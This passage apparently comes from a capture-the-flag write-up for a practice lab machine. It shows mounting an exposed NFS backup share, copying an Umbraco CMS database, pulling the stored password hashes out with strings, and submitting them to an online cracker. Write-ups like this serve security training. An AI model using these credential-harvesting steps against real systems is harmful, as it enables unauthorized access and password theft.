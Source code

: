`showmount` is a command used to see if there are any directories available to mount to our system. And we see a directory named `site_backups`. Here is how I mounted it:

```
mkdir remote
sudo mount -t nfs 10.10.10.180:site_backups /tmp/remote
```

First we make a mounting point for the remote directory and then using `mount` command we can now see the contents of the directory "site_backups". 

```
/tmp$ cd remote
/tmp/remote$ ls
App_Browsers  aspnet_client  css           Media    Umbraco_Client
App_Data      bin            default.aspx  scripts  Views
App_Plugins   Config         Global.asax   Umbraco  Web.config
```

That is a lot of files and a lot of information to go through. But remember that all we need are the credentials for the exploit. So I google about where are the credentials stored in Umbraco CMs. I find that credentials are stored inside a .sdf database inside the App_data directory.

```
/tmp/remote$ cd App_Data
/tmp/remote/App_Data$ ls
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
/tmp/remote/App_Data$ cp Umbraco.sdf ~/Downloads
```

Now that we have made a local copy of the database you can unmount the nfs share with the command `sudo umount /tmp/remote` if you want.

Lets open up the the data base with a normal text editor. And I see a lot of readable text mixed with unreadble ones. Lets use the best tool there is i.e STRINGS.

```
strings Umbraco.sdf | more
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
  --snip--
```

How considerate of them to also tell us about the hashing algorithm used. So head on over to [crackstation](https://crackstation.net) and copy all the strings in those lines that looked like a hash to me. I see that the string after "adminadmin@htb.local" was a hash and were crackable. 
